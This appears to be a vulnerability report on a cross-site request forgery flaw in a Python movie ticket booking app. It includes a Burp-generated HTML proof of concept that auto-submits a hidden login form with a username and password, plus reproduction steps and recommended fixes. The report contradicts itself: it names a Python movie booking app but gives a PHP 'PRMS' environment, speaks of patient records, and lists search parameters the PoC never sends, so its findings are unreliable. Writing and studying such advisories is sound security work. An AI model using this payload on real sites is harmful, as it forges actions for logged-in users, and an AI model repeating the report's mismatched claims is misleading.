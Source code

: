 # 🛡️ CSRF Vulnerability Report in Online Movie Ticket Booking System in Python 

## 🧾 Summary

A **Cross-Site Request Forgery (CSRF)** vulnerability was identified in the `Login Page` of the Movie Booking system. This flaw allows an attacker to force an authenticated user to submit crafted POST data, resulting in unauthorized actions such as searching records without their knowledge.

---

## 📍 Affected Endpoint

- **URL:** `[https://localhost:5000/]`
- **HTTP Method:** `POST`
- **Vulnerable Parameters:**
  - `pn`
  - `search`
- **Authentication Required:** ✅ Yes
- **CSRF Protection:** ❌ None observed

---

## 🔁 Steps to Reproduce

### 1. Login as an Authenticated User

- Navigate to: `https://localhost/PRMS-php/`

Username: manager

Password: Password@123
![image](https://github.com/user-attachments/assets/1b12fe54-c58a-4869-ab5b-c3ea91b1d6e4)

### 2. Use the CSRF Proof-of-Concept

Save the following HTML as `csrf_poc.html`:

```html
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="http://127.0.0.1:5000/login" method="POST">

      <input type="hidden" name="username" value="manager" />

      <input type="hidden" name="password" value="Password&#64;123" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/');

      document.forms[0].submit();

    </script>

  </body>

</html>
```
![image](https://github.com/user-attachments/assets/8973199b-3b4d-49cb-abda-3f61175d9666)


### 3. 🚨 Trigger the CSRF Attack

- Open the file `csrf_poc.html` in a browser where the victim is already logged in.
- The form auto-submits and sends the forged request.
- The backend processes the request and responds with matching records.

---

## 🧪 Technical Evidence

### 🔍 HTTP Request Sent by PoC

![image](https://github.com/user-attachments/assets/aa2a84d4-4904-4033-bbe1-8832f7e3a28c)

### 🔙 Response
![image](https://github.com/user-attachments/assets/43106c0d-53ac-4746-b43d-7f7ef4938b5b)

✅ This confirms that the request was accepted and executed successfully without any CSRF protection or user interaction.

## 💥 Impact

Attackers can craft a malicious web page that performs actions on behalf of logged-in users.

Could lead to:

- Unauthorized searches  
- Viewing of patient records  
- Escalated attacks if other endpoints like `edit`, `delete`, or `upload` also lack CSRF protection

This poses a risk to the **confidentiality** and **integrity** of the system.

---

## 🔧 Recommended Fixes

1. **Implement CSRF Tokens**  
   Use secure, random CSRF tokens for every authenticated form and validate them server-side.

2. **Set SameSite Cookies**  
   Use `SameSite=Strict` or `SameSite=Lax` on session cookies to prevent cross-origin submission.

3. **Validate Headers**  
   Check the `Origin` and `Referer` headers for all sensitive POST requests and reject unexpected sources.

4. **Use Frameworks with CSRF Protection**  
   Modern web frameworks like **Laravel**, **Django**, or **Spring** offer built-in CSRF protections — enable them.

---

## 🧑‍💻 Author

- **Name:** VANSH Dhawan And Subhash Paudel  
- **Date of Discovery:** 28 June 2025  
- **Tools Used:** Burp Suite Professional, Firefox, HTML PoC  
- **Test Environment:** Localhost PRMS Setup (PHP-based)

   
